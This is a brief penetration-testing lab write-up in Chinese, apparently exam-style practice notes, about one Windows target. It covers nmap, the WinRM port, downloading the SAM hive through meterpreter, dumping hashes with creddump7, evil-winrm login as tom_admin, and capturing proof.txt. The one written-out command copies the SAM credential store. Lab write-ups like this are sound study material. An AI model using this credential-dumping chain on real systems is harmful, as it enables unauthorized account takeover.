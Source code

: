 ## nmap scanning
- <img width="1403" height="477" alt="image" src="https://github.com/user-attachments/assets/62a80c4c-e14e-455c-8677-4e6fe903149e" />

## 5985 port
- 在 .148 的 C:\windows.old\windows\system32 發現 system 和 sam
  - <img width="923" height="707" alt="image" src="https://github.com/user-attachments/assets/3ff8f218-6fd9-44e0-9cd2-94ebd53b598f" />
- 用 msfconsole 取得 meterpreter 後，用 download 下來
  ```
  download C:\\Windows.old\\Windows\\System32\\SAM /home/kali/Desktop/
  ```
  - <img width="1455" height="490" alt="image" src="https://github.com/user-attachments/assets/f5df034b-b432-4994-98fb-092a55912288" />
- 用 creddump7 解 system 和 sam
  - <img width="1388" height="552" alt="image" src="https://github.com/user-attachments/assets/6bfde415-5054-40ec-be0b-fab2f8ef5c62" />
- 用 evil-winrm 成功登入 tom_admin
  - <img width="1678" height="307" alt="image" src="https://github.com/user-attachments/assets/adc4f90a-4771-41f2-adfc-efed8ca26775" />
- 取得 proof.txt
  - <img width="810" height="113" alt="image" src="https://github.com/user-attachments/assets/910bb7d5-1ffd-4dc7-a9d6-e2ee92fd225e" />
























































